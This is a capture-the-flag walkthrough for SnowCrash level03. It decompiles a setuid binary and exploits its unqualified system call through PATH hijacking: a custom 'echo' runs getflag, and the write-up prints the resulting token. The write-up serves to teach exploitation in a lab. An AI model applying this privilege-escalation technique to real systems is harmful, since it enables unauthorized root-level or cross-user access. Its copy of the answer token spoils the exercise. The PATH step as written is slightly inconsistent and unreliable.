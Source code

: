 Listing the files in the directory, we find a binary file:

```c
level03@SnowCrash:~$ ls -la level03
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

The s in level03 permissions indicates the SetUID bit. This means the file will run with the privileges of its owner instead of the user executing it. In our case, the owner is flag03.

To analyze the binary file, we transfer it to our local machine using **scp**:

```bash
level03@SnowCrash:~$ scp -P 4242 level03@127.0.0.1:/home/user/level03/level03 ./
```

We decompile the binary using [dogbolt.org](http://dogbolt.org) : 

![Capture d’écran 2025-02-03 à 13.11.17.png](attachment:615e25f0-f2af-40e9-8f97-6a735726b2de:Capture_decran_2025-02-03_a_13.11.17.png)

The script calls **getegid()** and **geteuid()** to retrieve the effective group ID and user ID, and then uses **setresgid()** and **setresuid()** to set them. In our case, these correspond to the **flag03** IDs.

Our goal is to execute the **getflag** command with **flag03** privileges to retrieve the token. Since this script runs a system call with these privileges, we can leverage this to obtain the token. 

Although we cannot modify the arguments passed to the system call directly, we can exploit the fact that **echo** is a built-in command and alter it’s behavior to execute the **getflag** function instead. 

We create our own version of echo and store it in **/tmp**, setting appropriate permission to ensures that the system call can use it.

```bash
level03@SnowCrash:~$ ****cd /tmp && mkdir echo
level03@SnowCrash:~$ cd echo && touch echo.c
level03@SnowCrash:~$ chmod 777 echo.c
```

```c
#include <stdlib.h>

int main(void) {
	system("/usr/bin/env getflag");
	return 1;
}
```

We compile the new **echo**.

```bash
level03@SnowCrash:~$ gcc echo.c -o echo
```

We add **/tmp** to the **$PATH** and remove **/bin** from it , ensuring that the system call will only find our custom definition of **echo**.

```bash
level03@SnowCrash:~$ export PATH=/tmp:$PATH
level03@SnowCrash:~$ export PATH=$(echo $PATH | sed 's/\/bin//')
```

Finally, we run the binary:

```bash
level03@SnowCrash:~$ ./level03
Here is your token qi0maab88jeaj46qoumi7maus
```

### Ressources

- https://dogbolt.org/?id=0a105cdf-9237-4e31-9773-e9a12740c81a#Ghidra=162
- https://stackoverflow.com/questions/39939853/exploit-system-call-in-c
- https://www.go4expert.com/articles/exploit-c-t24920/
